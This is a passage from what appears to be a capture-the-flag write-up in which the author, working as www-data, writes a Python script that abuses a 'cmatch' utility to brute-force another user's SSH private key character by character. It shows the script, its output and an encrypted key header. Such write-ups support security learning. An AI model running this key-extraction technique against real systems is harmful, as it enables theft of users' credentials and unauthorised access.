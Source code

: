 
This is working, but it’s not going fast enough. I’ll need to script it.

#### SSH Brute Script

I started a simple Python script to try to read the entire key. At first, I
included all `string.printable` in my script, but it kept breaking due to
invalid escapes. I then thought about an SSH key. It has the base64 alphabet,
plus newlines, and “-“ at the top and bottom. So I limited the alphabet to
that. The script looked like:

    
    
    #!/usr/bin/env python3
    
    import string
    import subprocess
    
    
    alpha = string.ascii_letters + string.digits + ' -/+=\n,:'
    known = "-----BEGIN"
    print(known, end="")
    
    while True:
    
        cont = False
        for c in alpha:
            if c in '+/':
                c = f'\\{c}'
            res = subprocess.check_output(f'cmatch /home/john/.ssh/id_rsa "{known}{c}"', shell=True)
            if b'Found matches: 0' not in res:
                print(c[-1], end="", flush=True)
                known = known + c
                cont = True
                break
        if not cont:
            break
    

It will start with a `while True:` loop, and set `cont` to `False`. Then it
loops over each letter, checking if it is the next, and if so, it updates the
`known` string, sets `cont = True` and breaks. On reaching the end of the
`for` loop, if it didn’t find any matches, `cont` is false, and the while is
broken. Otherwise, it found a character, which means it should loop looking
for the next.

When I run this, it gets the start of the key:

    
    
    www-data@fingerprint:/dev/shm$ python b.py        
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type
    

I didn’t take into account encrypted keys. They look something like:

    
    
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: AES-128-CBC,D54228DB5838E32589695E83A22595C7
    